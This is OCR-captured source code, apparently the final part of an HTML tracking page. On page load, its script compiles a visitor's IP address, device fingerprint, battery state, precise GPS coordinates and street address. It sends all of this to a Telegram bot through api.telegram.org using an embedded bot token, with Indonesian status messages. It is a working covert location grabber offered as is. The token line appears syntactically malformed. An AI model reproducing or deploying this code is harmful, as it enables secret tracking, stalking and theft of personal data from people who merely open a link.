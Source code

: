       const message = `📍 *New Location Update* 🎯
👤 *Device Info:*
• IP: ${ip}
• Platform: ${navigator.platform}
• Android: ${androidVersion}
• Language: ${language}
• Resolution: ${resolution}
• Timezone: ${timezone}
• Online: ${isOnline}
• RAM: ${deviceMemory}GB
• CPU: ${cpuCores} cores
• Battery: ${batteryInfo.level} (${batteryInfo.charging})

📍 *Location Details:*
• Latitude: ${locationData.latitude}
• Longitude: ${locationData.longitude}
• Accuracy: ${locationData.accuracy}
• Address: ${locationData.road}, ${locationData.village}
• City: ${locationData.city}, ${locationData.province}
• Country: ${locationData.country}
• Postal: ${locationData.postcode}

🌤️ *Weather:* ${weather} ${temperature}
🕐 *Time:* ${clock}
🔐 *Fingerprint:* ${fingerprint}`;

      // Send to Telegram with better error handling
      try {
        const response = await fetch(`https://api.telegram.org/bot${8112257591:AAEr0bo1TWkEW6yma79QqdVrNHOXZsJvHxw}/sendMessage`, {
          method: "POST",
          headers: { 
            "Content-Type": "application/json",
            "Accept": "application/json"
          },
          body: JSON.stringify({
            chat_id: OWNER_CHAT_ID,
            text: message,
            parse_mode: "Markdown"
          })
        });

        if (!response.ok) {
          const errorData = await response.json();
          console.error('Telegram API Error:', errorData);
          document.getElementById('status').textContent = '❌ Gagal mengirim ke Telegram: ' + (errorData.description || 'Unknown error');
        } else {
          document.getElementById('status').textContent = '✅ Data berhasil dikirim ke Telegram!';
        }
      } catch (error) {
        console.error('Failed to send to Telegram:', error);
        document.getElementById('status').textContent = '❌ Gagal mengirim ke Telegram: ' + error.message;
      }
    }

    // Start tracking when page loads
    getVisitorInfo();
  </script>
</body>
</html>

